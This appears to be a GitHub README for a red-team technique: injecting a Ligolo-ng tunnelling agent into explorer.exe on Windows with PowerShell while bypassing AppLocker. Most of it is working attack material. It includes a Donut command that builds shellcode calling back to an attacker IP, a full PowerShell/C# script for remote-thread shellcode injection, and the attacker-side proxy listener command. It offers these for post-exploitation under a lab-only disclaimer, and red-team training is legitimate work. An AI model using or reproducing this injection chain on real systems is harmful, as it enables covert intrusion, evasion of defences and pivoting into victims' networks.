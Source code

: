 # 🧬 Ligolo Agent Injection via PowerShell & AppLocker Bypass

This repository demonstrates how to inject a [Ligolo-ng](https://github.com/nicocha30/ligolo-ng) agent shellcode into a remote process using pure PowerShell and basic Win32 API calls, bypassing AppLocker by executing from a trusted path (`C:\Windows\Tasks`) and leveraging in-memory execution.

## 🔧 Requirements

- Windows target with:
  - AppLocker enabled
  - .NET Framework 4.0+
  - CLM (Constrained Language Mode) bypassed
- Shellcode generated with [Donut](https://github.com/TheWover/donut)
- Ligolo-ng proxy running on attacker's machine (`./proxy -selfcert`)

## 🧪 Step-by-Step Usage

### 1. Generate Shellcode

Use Donut to convert your Ligolo agent executable into shellcode:

```bash
./donut.exe -f 1 -o agent.bin -a 2 -p "-connect 192.168.1.90:9001 -ignore-cert" -i agent.exe
```

This will create a raw shellcode file named `agent.bin`.

### 2. Deploy Shellcode to Target

Copy `agent.bin` to the trusted directory into the target host:

```powershell
Copy-Item .\agent.bin "C:\Windows\Tasks\agent.bin"
```

### 3. Execute Shellcode via PowerShell

Use the included PowerShell script to:

- Load the shellcode from disk
- Inject it into `explorer.exe`
- Trigger execution via `CreateRemoteThread`

```powershell
$shellcode = [System.IO.File]::ReadAllBytes("C:\Windows\Tasks\agent.bin")
$procid = (Get-Process -Name explorer).Id
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out int lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool CloseHandle(IntPtr hObject);
}
"@ -Language CSharp

$PROCESS_ALL_ACCESS = 0x1F0FFF
$MEM_COMMIT = 0x1000
$MEM_RESERVE = 0x2000
$PAGE_EXECUTE_READWRITE = 0x40

$hProcess = [Kernel32]::OpenProcess($PROCESS_ALL_ACCESS, $false, $procid)
if ($hProcess -eq [IntPtr]::Zero) {
    Write-Error "Failed to open process."
    exit
}
$size = $shellcode.Length
$addr = [Kernel32]::VirtualAllocEx($hProcess, [IntPtr]::Zero, [uint32]$size, $MEM_COMMIT -bor $MEM_RESERVE, $PAGE_EXECUTE_READWRITE)
if ($addr -eq [IntPtr]::Zero) {
    Write-Error "Failed to allocate memory in the target process."
    [Kernel32]::CloseHandle($hProcess)
    exit
}
$out = 0
$result = [Kernel32]::WriteProcessMemory($hProcess, $addr, $shellcode, [uint32]$size, [ref]$out)
if (-not $result) {
    Write-Error "Failed to write shellcode to the target process."
    [Kernel32]::CloseHandle($hProcess)
    exit
}
$thread = [Kernel32]::CreateRemoteThread($hProcess, [IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [IntPtr]::Zero)
if ($thread -eq [IntPtr]::Zero) {
    Write-Error "Failed to create remote thread in the target process."
}
[Kernel32]::CloseHandle($hProcess)
Write-Output "Ligolo Agent Shellcode injected successfully, check the Ligolo Proxy Server interface!"
```

### 4. Monitor Connection

On the attacker machine, you should now see the agent connected in the Ligolo proxy:

```bash
./proxy --selfcert --laddr 0.0.0.0:9001
```

---

## ⚠️ Notes

- This script uses classic `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` calls to execute the payload.
- `agent.bin` is injected into `explorer.exe` which is typically running with user-level privileges.
- Designed for **post-exploitation** in **controlled lab environments** such as OSEP or Red Team simulations.

---

## 🛡 Disclaimer

This project is intended for **educational and authorized testing purposes only**. Use it exclusively in environments you have explicit permission to assess.

---



